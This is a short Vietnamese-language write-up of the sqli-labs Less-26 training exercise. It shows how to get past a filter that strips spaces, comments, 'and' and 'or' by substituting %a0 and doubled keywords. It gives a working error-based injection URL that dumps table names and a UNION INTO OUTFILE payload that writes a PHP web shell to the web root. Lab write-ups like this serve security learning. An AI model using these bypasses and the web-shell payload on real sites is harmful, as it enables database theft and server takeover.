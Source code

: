 # Less 26

Đề bài yêu cầu nhập vào một giá trị

![](../images/sqli-labs/Less-26/01.png)

Thử nhập vào một giá trị

![](../images/sqli-labs/Less-26/02.png)

Khi nhập vào `a'` thì tôi thấy xuất hiện lỗi

![](../images/sqli-labs/Less-26/03.png)

Ở đây các ký tự comment khoảng trống đã bị bỏ

![](../images/sqli-labs/Less-26/04.png)

Tôi thấy cả `and` và `or` cũng đã bị bỏ

Dựa vào đây ta có thể show được các thông tin trong DB như nhưng bài trước nhưng ta thay thế các các ký tự khoảng trống bằng `%a0`, `or` bằng `oorr`, `and` bằng `anandd`.

Show bảng trong DB

```
http://192.168.84.233/sqli-labs/Less-26/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(select%a0table_name%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```

![](../images/sqli-labs/Less-26/05.png)

Tương tự như vậy ta có thể show các thông tin khác.

Viết được vào một file(chưa sử dụng được dùng dấu `/`)

```
http://192.168.84.233/sqli-labs/Less-26/?id=1%27%a0union%a0select%a00,0,%22%3C?php%a0system($_REQUEST[%27cmd%27]);?%3E%22%a0into%a0outfile%a0%27/var/www/html/tests/a1.php%27%a0from%a0emails%a0oorrder%a0by%a0id%a0oorr%a0%271
```

![](../images/sqli-labs/Less-26/06.png)